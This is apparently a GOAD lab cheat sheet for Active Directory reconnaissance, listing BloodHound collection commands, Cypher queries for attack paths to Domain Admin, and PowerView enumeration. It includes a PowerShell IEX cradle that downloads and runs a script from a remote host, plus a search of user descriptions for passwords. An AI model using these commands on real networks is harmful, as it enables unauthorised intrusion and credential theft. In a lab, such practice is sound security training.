 # GOAD Lab Tools Cheat Sheet

## Recon Tools

### Bloodhound

**Installation & Setup**
```bash
# Download & import data
bloodhound-python -u username -p password -d domain.local -dc domain-controller -c all
# Or with SharpHound on target
Import-Module .\SharpHound.ps1
Invoke-Bloodhound -CollectionMethod All -Domain domain.local
```

**Top Cypher Queries**
```cypher
# Find Kerberoastable Users
MATCH (n:User) WHERE n.hasspn=true RETURN n

# Find ASREPRoastable Users  
MATCH (u:User) WHERE u.dontreqpreauth=true RETURN u

# Find Domain Admins
MATCH (n:User)-[:MemberOf*1..]->(g:Group) WHERE g.name CONTAINS 'DOMAIN ADMINS' RETURN n.name

# Find shortest path to Domain Admin
MATCH (u:User),(g:Group {name:"DOMAIN ADMINS@SEVENKINGDOMS.LOCAL"}) 
MATCH p=shortestPath((u)-[*1..]->(g)) RETURN p

# Find users with DCSync rights
MATCH (n1)-[:MemberOf|GetChanges*1..]->(u) WHERE u.objectid ENDS WITH '-512' RETURN n1

# Find computers with unconstrained delegation
MATCH (c:Computer) WHERE c.unconstraineddelegation=true RETURN c

# Find High Value Targets
MATCH (u:User) WHERE u.highvalue=true RETURN u
```

### PowerView

**Domain Enumeration**
```powershell
# Import PowerView
IEX (New-Object Net.WebClient).DownloadString('http://ip:port/PowerView.ps1')

# Get domain info
Get-NetDomain
Get-NetDomainController
Get-NetForest

# User enumeration  
Get-NetUser
Get-NetUser -SPN  # Kerberoastable users
Get-NetUser -PreauthNotRequired  # ASREPRoastable users
Get-UserProperty -Properties pwdlastset
Find-UserField -SearchField Description -SearchTerm "pass"

# Group enumeration
Get-NetGroup
Get-NetGroup -Domain essos.local
Get-NetGroupMember "Domain Admins"
```